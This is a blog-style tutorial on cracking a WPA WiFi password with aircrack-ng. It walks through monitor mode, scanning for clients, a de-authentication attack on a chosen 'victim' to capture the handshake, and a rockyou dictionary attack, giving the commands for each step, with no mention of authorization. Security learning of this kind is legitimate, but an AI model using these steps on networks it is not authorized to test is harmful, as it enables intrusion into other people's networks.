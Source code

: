 ```yaml
---
title: "Hack into WiFi networks with a De-Authentication attack"
summary: "In this article, we will demonstrate how to perform a basic WiFi attack with `aircrack-ng` by forcing a client to de-authenticate, retrieving the password hash, and finally bruteforcing the password."
date: 2024-06-03T20:00:00+0200
lastUpdate: 2024-10-15T13:45:06+0200
tags: ["hacking", "wifi", "network", "bruteforce"]
author: clementS
draft: false
---
```


## Abstract

**Initial State:** A client is connected to a ***password-securised WiFi***

The goal is to get the WiFi password.  
To achieve this we must:  
1) Detect the target WiFi's signal
2) Detect connected computer to this WiFi
3) Send de-authentication packets to this computer to make it disconnect from the WiFi
4) Get the password "hash" when it tries to reconnect to WiFi
5) Bruteforce it :)

## Network Packet Structure

![Network Packet](ip_header.jpg)

On each network packet there are source and destination addresses.
By default, WiFi cards only filter packet that have its IP as destination address.

That's a layer often added in driver, so it's hard to bypass.

> The first reason is not security though; it avoids useless CPU overhead and often, drivers on personal computers aren't made to allow monitor mode indeed

So how to bypass it ?

Buy a new WiFi Card with Monitor Mode capability that you can plug to your computer by USB (Monitor Mode is the ability to process all packets, even the ones that are not destinated to your MAC address).

I bought and used the AWUS1900.

The WiFi card will be considered as fully configured and driver installed in the rest of this tutorial.

To install the driver for AWUS1900 use:  
https://github.com/morrownr/8814au/blob/main/README.md

You will also have to install `aircrack-ng` on your machine.
For example on Ubuntu, Debian, or Kali:
```
sudo apt-get install aircrack-ng
```

## Step 1: Enable Monitor Mode
By default, your card is in Managed Mode (filter by destination address mode).
You have to tell him to get and read every packet.

First get your card interface name:
```
iwconfig
```

![iwconfig](iwconfig.png)

**Interface name is often wlan0 or wlan1**  
Then turn Monitor Mode on.  

```
sudo airmon-ng interface_name
```

![airmon-ngstart](airmon-ngstart.png)

> Note: Interface name can change to `<interface_name>mon`.
> You can check it with `iwconfig`.

## Step 2: Detect WiFi

```
sudo airodump-ng interface_name  
```
![airodump](airodump.png)

This will detect WiFi networks around. Each network is associated with a station address (the router).

Note the BSSID (MAC address of an access point) of the network you wish to target.
Note also the channel used, it represents the physical radio band on which the signal is actually modulated and sent.

> Note: For that concern, it is impossible to detect signals if the base frequency is not handled by your network card (2.4 Ghz only card and 5 GHz signal for instance)

## Step 3: Detect Computer Connectedfor

Then, we just add a filter to filter by source or destination equal access point MAC address
```
sudo airodump-ng -c channel --bssid mac_bssid
```

![airodumpfiltered](airodumpfiltered.png)

Here we can see connected computer(s)

Choose the one you want to hack and note the station MAC address.

## Step 4: Listen Network while Deauth Attack To Victim

We will now perform a de-authentication attack on the victim's station.
The goal is to make the station's WiFi Card disconnect and reconnect to network.
This will make the station send an authentication packet to the access point with the network password "hash" inside.
**That's the packet we wanna catch.**

We will do that with 2 commands:  
- Listen and write in a file all authentication packet catch threw this network.
```
sudo airodump-ng -c channel --bssid mac_bssid -w outfilename interface_name 
```

![airodumpfiltered2](airodumpfiltered2.png)

- Force the victim to de-authenticate from the WiFi.  
***We want to de-authenticate the victim while listening and writing network authentication packet when victim try to reconnect to his network => open a new terminal to perform attack***
```
sudo aireplay-ng -0 1 -a  mac_bssid -c station_mac_address interface_name
```

![airplay](airplay.png)

## Step 5: Checking EAPOL packet received

If de-authentication and re-authentication forced worked, we should have received an EAPOL packet. In listing packet terminal window, there's EAPOL written in packet received.

![airodumpattack](airodumpattack.png)

De-authentication works most of the time but immediate re-authentication doesn't always work.
Indeed, Mac OS does not reconnect immediatly to previously reconnected Network after WiFi card unplanned restart.
Windows OS doesn't follow the rule and try to reconnect instantly (prefer Windows station to attack if you have the choice :wink:)

> very interesting,  source on this part  ?

Then, if it works stop the listening we have what we want by Ctrl+C over listening terminal.

## Step 6: Retreiving WiFi password

A new file was created, you can easily check it with the `ls` command.

### Time to bruteforce
To bruteforce we can choose different techniques, in our case we will perform a dictionary attack.
`rockyou.txt` is a good dictionary by default (you can find it [here](https://github.com/zacheller/rockyou)).

```
sudo aircrack-ng -w rockyou.txt outfile.cap
```

![aircrack-ng](aircrack-ng.png)

## Conclusion

The hardest thing to do is to force victim to reconnect.
Sometimes, victim OS does not reconnect automatically.  

Use strong passwords to protect your WiFi, and use the WPA3 protocol (hash function harder to calculate => lower hash rate).
It makes the bruteforce method less efficient.
